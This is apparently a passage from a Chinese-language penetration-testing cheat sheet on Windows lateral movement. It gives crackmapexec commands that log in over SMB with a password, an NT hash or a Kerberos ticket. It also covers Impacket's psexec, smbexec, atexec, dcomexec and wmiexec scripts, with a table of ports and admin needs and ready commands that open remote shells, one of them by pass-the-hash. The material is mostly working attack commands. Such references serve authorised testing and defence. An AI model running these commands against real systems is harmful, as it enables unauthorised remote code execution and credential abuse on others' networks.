   ```powershell
  crackmapexec smb 192.168.1.100 -u Administrator -p "Password123?" # 密码
  crackmapexec smb 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" # NT 哈希
  export KRB5CCNAME=/tmp/kerberos/admin.ccache; crackmapexec smb 192.168.1.100 -u admin --use-kcache # Kerberos
  ```

## Impacket

来自 [fortra/impacket](https://github.com/fortra/impacket)（:warning: 在Kali中重命名为impacket-xxxxx）    
:warning: `get` / `put` 对于wmiexec, psexec, smbexec, 和 dcomexec将更改为`lget`和`lput`。    
:warning: 法语字符可能无法在输出中正确显示，使用`-codec ibm850`来解决这个问题。   
:warning: 默认情况下，Impacket的脚本存储在示例文件夹中：`impacket/examples/psexec.py`。 

所有Impacket的*exec脚本都不相同，它们将针对托管在多个端口上的服务。 
下表总结了每个脚本使用的端口。

| 方法        | 使用的端口                            | 需要管理员权限 |
| ----------- | ------------------------------------- | -------------- |
| psexec.py   | tcp/445                               | 是             |
| smbexec.py  | tcp/445                               | 否             |
| atexec.py   | tcp/445                               | 否             |
| dcomexec.py | tcp/135, tcp/445, tcp/49751 (DCOM)    | 否             |
| wmiexec.py  | tcp/135, tcp/445, tcp/50911 (Winmgmt) | 是             |

* `psexec`：使用RemComSvc二进制的Windows PSEXEC的等效物。

  ```ps1
  psexec.py DOMAIN/username:password@10.10.10.10
  ```

* `smbexec`：类似于PSEXEC的方法，但不使用RemComSvc

  ```ps1
  smbexec.py DOMAIN/username:password@10.10.10.10
  ```

* `atexec`：通过任务计划程序服务在目标机器上执行命令，并返回执行的命令的输出。

  ```ps1
  atexec.py DOMAIN/username:password@10.10.10.10
  ```

* `dcomexec`：类似于wmiexec.py的半交互式shell，但使用不同的DCOM端点

  ```ps1
  dcomexec.py DOMAIN/username:password@10.10.10.10
  ```

* `wmiexec`：一种半交互式shell，通过Windows Management Instrumentation使用。首先它使用tcp/135和tcp/445端口，最终它与Winmgmt Windows服务通过动态分配的高端口（如tcp/50911）通信。

  ```ps1
  wmiexec.py DOMAIN/username:password@10.10.10.10
  wmiexec.py DOMAIN/username@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
  ```

